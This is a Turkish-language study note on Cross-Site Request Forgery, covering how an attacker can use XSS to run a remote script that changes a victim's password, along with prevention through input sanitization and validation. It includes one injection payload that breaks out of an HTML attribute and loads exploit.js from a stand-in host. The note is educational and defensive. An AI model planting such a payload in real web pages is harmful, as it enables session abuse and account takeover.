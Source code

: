 
![Pasted image 20250211202452.png](/img/user/resimler/Pasted%20image%2020250211202452.png)


# Cross-Site Request Forgery (CSRF)


**CSRF** (Cross-Site Request Forgery), filtrelenmemiş kullanıcı girdilerinden kaynaklanan bir **front end** güvenlik açığıdır. Saldırgan, **XSS** açıklarını kullanarak **API** çağrıları ve sorgular gerçekleştirebilir, böylece kurbanın kimlik doğrulamasıyla işlemler yapabilir.

Yüksek ayrıcalıklı erişim sağlamak için, saldırgan kurbanın şifresini değiştiren bir **JavaScript payload**'ı oluşturabilir. Kurban sayfayı görüntülediğinde, **JavaScript** kodu çalışarak **session cookie**'yi kullanarak şifreyi değiştirir.

**CSRF**, yöneticilerin hesaplarına da saldırarak **back-end server**'a erişim sağlanabilir. Bunun için, uzaktan bir **JavaScript** dosyası yüklenebilir.

```html
"><script src=//www.example.com/exploit.js></script>
```

**exploit.js** dosyası, kullanıcının şifresini değiştiren kötü niyetli **JavaScript** kodunu içerir. **exploit.js**'i geliştirmek, bu **web application**'ın şifre değiştirme prosedürünü ve **API**'lerini bilmek gerektirir. Saldırgan, istenilen işlevselliği taklit eden ve bunu otomatik olarak gerçekleştiren **JavaScript** kodu oluşturmak zorundadır (yani, bu **web application** için şifremizi değiştiren **JavaScript** kodu).


## Prevention

**Back end**'e ulaşmadan önce **front end**'de kullanıcı girdilerinin filtrelenmesi ve temizlenmesi önemlidir, özellikle bu kod doğrudan **client-side**'da görüntülenecekse. Kullanıcı girdisi kabul edilirken iki ana kontrol uygulanmalıdır:

| **Tür**          | **Açıklama**                                                                         |
| ---------------- | ------------------------------------------------------------------------------------ |
| **Sanitization** | Özel ve standart dışı karakterleri temizlemek.                                       |
| **Validation**   | Girdinin beklenen formatta olup olmadığını kontrol etmek (örneğin, e-posta formatı). |
Çıktı da temizlenmeli ve özel karakterler kaldırılmalıdır. **HTML Injection**, **XSS** veya **CSRF** gibi saldırılar engellenebilir. **WAF** çözümleri enjeksiyonları engellemeye yardımcı olabilir ancak atlatılabilir, bu yüzden geliştiriciler en iyi kodlama uygulamalarını takip etmelidir.

**CSRF**'ye karşı modern tarayıcılar ve **web application**'lar anti-**CSRF** önlemleri sunar, ancak bazı güvenlik önlemleri atlatılabilir. Bu yüzden bu önlemler ikincil bir güvenlik önlemi olmalı, geliştiriciler de her zaman güvenli kod yazmalıdır.


# Back End Servers

**Back-end server**, **web application**'ı çalıştıran donanım ve işletim sistemidir, tüm **process**'leri çalıştırır ve **task**'leri yerine getirir. **Back-end server**, **Data access layer**'da yer alır.
